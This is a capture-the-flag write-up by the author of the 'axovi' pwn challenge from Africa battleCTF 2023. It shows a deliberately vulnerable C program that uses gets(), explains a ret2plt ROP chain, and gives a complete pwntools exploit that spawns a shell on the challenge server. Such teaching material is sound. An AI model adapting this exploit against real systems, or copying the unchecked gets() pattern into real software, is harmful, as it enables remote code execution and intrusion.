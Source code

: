 # Axovi Writeup [Pwn]

Attached file: [axovi](datas/axovi)

Africa battleCTF 2023 challenge, i wrote this pwn challenge for [battleCTF 2023](https://github.com/0xbugpwn/battleCTF-2023).

This challenge involves exploiting a simple C program that uses unsafe functions like gets, leading to a buffer overflow vulnerability. Participants are tasked with executing arbitrary commands on the server by exploiting a `ret2plt` attack.

#### Source Code Analysis:

```c
//gcc -o axovi axovi.c -no-pie
#include <stdio.h>
#include <stdlib.h>

int main(){

    system( "echo 'Welcome to Africa battleCTF.\nTell us something about : '" );
    char buf[0x30];
    gets( buf );

    return 0;
}

```

Output of checksec

![Checksec](datas/checksec.png)

Section 

![section](datas/section.png)

> [!IMPORTANT]  
> * **Buffer Overflow Vulnerability**: The gets function does not check the input length, allowing stack overflow if the input exceeds `48 bytes` (0x30).
>
> * **No Stack Protection**: The program lacks stack canaries or other protections.
>
> * **Fixed Executable Layout**: The binary is compiled without `PIE` (`-no-pie`), meaning function addresses like `system` and `gets` are fixed.
>
> * **Writable Memory**: The `.data` segment (0x404028) can be used to store strings passed later to `system`.



#### Exploitation Plan:

1. Overflow the Buffer: Construct a payload to overwrite the `saved return pointer` of the function.

2. ROP Chain with `ret2plt`:

	* Redirect execution to `gets()` to store a command (e.g., `/bin/sh`) in a `writable memory` location.
	* Redirect execution to `system()` with the address of the stored command.

3. Send the Payload: Deliver the payload and trigger the exploit.



#### Understanding ret2plt:

The ret2plt (return-to-Procedure Linkage Table) attack leverages functions in the binary's `PLT (Procedure Linkage Table)` to perform arbitrary actions. Unlike code injection, `ret2plt` relies on legitimate code already present in the program.

##### Gadgets and Addresses Used:

* **pop_rdi (0x4011bb)**: Loads the address of writable memory into the `RDI` register (first argument for gets and system).

* **gets@plt (0x401040)**: Used to read a command and store it in memory.

* **system@plt (0x401030)**: Used to execute the stored command.

* **writable_mem (0x404028)**: `.data` segment used to store the `/bin/sh` string.

![poprdi](datas/poprdi.png)

![function](datas/functions.png)

##### Constructing the Payload:

1. Overflow the buffer with 0x30 (`48 bytes`) plus 8 bytes for the saved base pointer (`RBP`).

2. Build a ROP chain:

	* `pop_rdi` -> `writable_mem` (to prepare the input for `gets`).

	* Call `gets()` to store the command (`/bin/sh`).

	* `pop_rdi` -> `writable_mem` (to prepare the argument for system).

	* Call `system()` with `/bin/sh`.


#### Exploit Code:

```python
from pwn import *

context.arch = 'amd64'

sh = process('./axovi')

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1002)

# Gadgets and addresses

pop_rdi =  0x00000000004011bb # pop rdi ; ret
gets_plt = 0x401040 # gets@plt
system_plt = 0x401030 # system@plt
writable_mem = 0x404028 # .data

# Building the payload
payload = b'a' * (0x30 + 8)  # Buffer overflow and overwrite return pointer
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(gets_plt)      # Call gets() to store /bin/sh
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(system_plt)    # Call system() with /bin/sh

# Interacting with the target
print(sh.recv().decode())
sh.sendline(payload)          # Send the payload
sh.sendline(b"/bin/sh")       # Provide the command to gets()
sh.interactive()              # Switch to interactive mode
```

![Exploit](datas/exploit.png)

#### Final Notes:

This challenge introduces participants to ret2plt exploitation, teaching:

* Buffer overflow analysis.

* Using ROP gadgets to achieve arbitrary command execution.
